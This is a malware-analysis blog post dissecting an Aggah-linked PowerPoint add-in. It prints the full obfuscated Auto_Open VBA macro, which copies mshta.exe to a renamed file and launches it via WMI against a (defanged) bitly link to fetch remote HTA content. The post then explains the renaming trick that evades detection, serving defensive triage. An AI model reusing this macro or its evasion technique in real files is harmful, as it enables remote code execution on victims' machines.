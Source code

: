 ```yaml
---
layout: post
title: "Aggah PPAM macros renaming MSHTA"
date: 2022-03-04
categories: malware ppam macro mshta aggah 
permalink: /aggah-ppam-renamed-mshta/
---
```


In this quick post I'm taking a look at a PowerPoint file with macros on board! According to MalwareBazaar's tags, it was reported in association with the group "Aggah". If you want to follow along at home, the sample is here in MalwareBazaar: [https://bazaar.abuse.ch/sample/6b4970c6016fbff8665932c69d95203863c7ea46ae0f86e02525a4694f60f115/](https://bazaar.abuse.ch/sample/6b4970c6016fbff8665932c69d95203863c7ea46ae0f86e02525a4694f60f115/).

## Triaging the file

As usual, let's make sure we have a valid PPAM file. We can do this a few ways, I'll settle for `file` and `diec` here.

```console
remnux@remnux:~/cases/aggah$ file rfq.ppam 
rfq.ppam: Microsoft PowerPoint 2007+

remnux@remnux:~/cases/aggah$ diec rfq.ppam 
Binary
    Archive: Zip(2.0)[34.9%,36 files]
    Data: ZIP archive
```

The `diec` output might throw some folks off, but it's expected in this case. Office 2007+ documents are a collection of XML files stashed in a structured zip archive.

## Counting macros

To get the macro code, we can employ `olevba`.

```console
remnux@remnux:~/cases/aggah$ olevba rfq.ppam 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: rfq.ppam
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: ppt/ueryeur.n - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
MsgBox "error! Re-install office"
Set kaosk = GetObject("new:0D43FE01-F093-11CF-8940-00A0C9054228")
kaosk.copyfile "C:\Windows\System32\mshta.exe", "C:\\ProgramData\\cond.com", True
kokokasd = "C:mmmmmmmmDLASDLlrogramDatammmmmmmmcond0lol hmotamotaDLASDLls:sexsexmislalmislalmislal0bimotaly0lolsex" + "itjjjskrr"
kokokasd = Replace(kokokasd, "DLASDLl", "p")
kokokasd = Replace(kokokasd, "mislal", "w")
kokokasd = Replace(kokokasd, "mota", "t")
kokokasd = Replace(kokokasd, "0", ".")
kokokasd = Replace(kokokasd, "jdaudwoks", "e")
kokokasd = Replace(kokokasd, "lol", "com")
kokokasd = Replace(kokokasd, "sex", "/")
kokokasd = Replace(kokokasd, "mmmm", "\")
adjaiwdjiaskd = "01n2g2tkokokasd:"
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "0", "W")
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "1", "i")
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "2", "m")
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "kokokasd", "s")
aksdokasodkoaksd = "aksdokasodkoaksd5nooo_Proce66"
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "aksdokasodkoaksd", "W")
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "5", "i")
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "ooo", "32")
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "6", "s")
GetObject(adjaiwdjiaskd). _
Get(aksdokasodkoaksd). _
Create _
kokokasd, _
Null, _
Null, _
pid
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|copyfile            |May copy a file                              |
|Suspicious|Create              |May execute file or a system command through |
|          |                    |WMI                                          |
|Suspicious|GetObject           |May get an OLE object with a running instance|
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |mshta.exe           |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

There are a few interesting things in the code that stand out. First, a macro runs when PPAM opens because the macro defines a `Auto_Open()` function. Next, the macro copies mshta.exe to `C:\ProgramData\cond.com`. This is a simple and lazy way to evade detection rules that are brittle. Detection rules just checking for `mshta.exe` by name without additional binary property checks will get thrown off by this technique. Next, there looks like a ton of string obfuscation via replacement operations. We can simplify down the obfuscation showing these strings:

```text
kokokasd = "C:\\programData\\cond.com hxxps://www.bitly[.]com/itjjjskrr"
adjaiwdjiaskd = "Winmgmts:"
aksdokasodkoaksd = "Win32_Process"
```

Given these strings we can assume one of the next steps will spawn `cond.com`, the renamed mshta, to visit a bitly link and process malicious content in a HTA file. Judging from the string `Win32_Process`, the name of the WMI Process class, we can assume the `cond.com` process will execute via WMI, making it spawn from `wmiprvse.exe`. From here the trail dried up for me here because it didn't look like the sandboxes got a copy of the HTA. It likely didn't successfully execute or download.

Thanks for reading!